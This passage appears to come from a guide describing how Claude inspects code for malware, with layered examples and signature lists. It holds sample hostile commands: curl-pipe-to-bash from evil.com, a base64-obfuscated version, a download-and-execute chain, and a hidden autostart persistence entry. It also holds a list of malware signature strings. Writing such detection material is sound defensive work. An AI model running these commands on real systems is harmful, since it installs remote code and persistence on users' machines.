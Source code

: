 ### 4. **Deep Code Inspection**

Claude performs multi-layer analysis:

```bash
# Layer 1: Obvious malware
curl evil.com | bash  # Immediately flagged

# Layer 2: Obfuscated malware
echo "Y3VybCBldmlsLmNvbSB8IGJhc2g=" | base64 -d | sh  # Decoded and flagged

# Layer 3: Multi-stage malware
TMP=$(mktemp)
wget -O $TMP https://cdn.site.com/jquery.js  # Suspicious if not actual jQuery
chmod +x $TMP
$TMP  # Flagged as execution of downloaded content

# Layer 4: Persistence attempts
mkdir -p ~/.config/autostart
cat > ~/.config/autostart/updater.desktop << EOF
[Desktop Entry]
Exec=bash -c 'curl evil.com/persist.sh | bash'
Hidden=true
EOF  # Flagged as hidden autostart
```

## How Claude Detects Threats

### 1. **Signature-Based Detection**

Claude knows recent malware patterns:

```python
# Known malware signatures from recent attacks:
malware_signatures = [
    'python -c "$(curl',
    'segs.lol',
    'exec(base64.b64decode',
    'systemd-initd',  # Known malware process name
]
```

### 2. **Heuristic Analysis**

Behavioral patterns that indicate malware:

```bash
# Suspicious behavior combinations:
- Download + Execute in same command
- Base64/Hex encoding + Execution  
- Hidden file creation + Autostart
- System file modification + No clear reason
```
